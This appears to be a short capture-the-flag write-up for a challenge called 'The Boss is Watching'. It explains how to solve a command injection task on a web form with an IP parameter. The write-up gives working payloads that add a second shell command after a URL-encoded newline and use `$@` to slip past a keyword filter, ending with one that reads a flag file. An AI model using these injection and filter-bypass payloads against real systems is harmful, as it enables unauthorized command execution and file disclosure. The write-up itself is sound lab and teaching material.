




## The Boss is Watching
Task: Once in a remote Norwegian town, a group of skilled security professionals had convened in a fancy cabin to collaborate and achieve their objectives. On their network, they found a number of challenges that required their collective expertise. Do you have what it takes to tackle these challenges too?

Again I have the same type of website:

If I try the previous payload it does not work.

The solution here was to play with `$@`
`ip=127.0.0.1%0awho$@ami`

The final payload is:
`ip=127.0.0.1%0ac$@at<./../../../flag.txt`
